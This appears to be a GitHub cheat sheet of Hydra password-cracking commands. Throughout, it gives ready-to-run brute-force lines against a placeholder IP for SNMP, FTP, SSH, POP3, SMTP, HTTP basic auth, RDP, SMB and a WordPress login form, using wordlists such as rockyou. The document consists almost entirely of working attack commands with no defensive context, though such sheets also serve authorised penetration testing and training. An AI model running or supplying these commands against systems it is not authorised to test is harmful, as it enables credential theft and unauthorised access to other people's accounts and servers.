 # Hydra-Cheatsheet
Hydra Password Cracking Cheetsheet


Hydra brute force against SNMP

hydra -P password-file.txt -v $ip snmp

Hydra FTP known user and rockyou password list

hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp

Hydra SSH using list of users and passwords

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

Hydra SSH using a known password and a username list

hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh

Hydra SSH Against Known username on port 22

hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt

Hydra POP3 Brute Force

hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

Hydra SMTP Brute Force

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

Hydra attack http get 401 login with a dictionary

hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

Hydra attack Windows Remote Desktop with rockyou

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

Hydra brute force SMB user with rockyou:

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb

Hydra brute force a Wordpress admin login

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
